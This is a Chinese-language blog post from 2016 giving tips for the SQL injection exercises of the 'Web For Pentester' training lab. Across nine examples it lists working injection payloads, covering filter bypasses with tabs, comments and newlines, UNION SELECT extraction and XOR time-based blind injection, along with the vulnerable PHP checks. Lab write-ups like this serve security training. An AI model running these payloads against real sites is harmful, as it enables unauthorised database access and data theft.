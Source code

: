 ```yaml
---
layout:     post
title:      "Web For Pentester - SQLi Part Tips"
date:       2016-10-30
categories: [pentest, Training documents, SQL injection]

---
```


### SQLi Example 1

最基础的字符型注入，无任何过滤

**name=root' and '1'='1**

### SQLi Example 2

过滤了空格，语句中若出现空格就会报错

> - 水平制表(HT) url编码：%09
> - 注释绕过空格   /\*注释\*/

**name=root'%09and%09'1'='1**

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 3

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 4

最基础的数值型注入，过滤了单引号

**id=2%20and%201=2**

### SQLi Example 5

```php
//代码片段
if (!preg_match('/^[0-9]+/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字开头

**id=1/0 UNION SELECT 1,user(),3,4,5**

### SQLi Example 6

```php
//代码片段
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字结尾

**id=1 and 1=1%23123**

### SQLi Example 7

```php
//代码片段
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```

这里使用了[PCRE_MULTLINE](http://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)(/m)，也就是说任意换行符之前或之后都必须是数字，那么就可以构造如下payload

**id=1%0a and 1=1**

### SQLi Example 8

使用XOR逻辑加时间盲注进行猜解

**order=name`  xor if(ascii(substring(user(),1,1))=111,sleep(5),0)%23**
### SQLi Example 9
这里过滤了“`”，可以使用XOR让第一个语句报错，第二个语句正确，页面显示正常
**order=1 xor if(ascii(substring(user(),1,1))=112,sleep(5),0)%23**















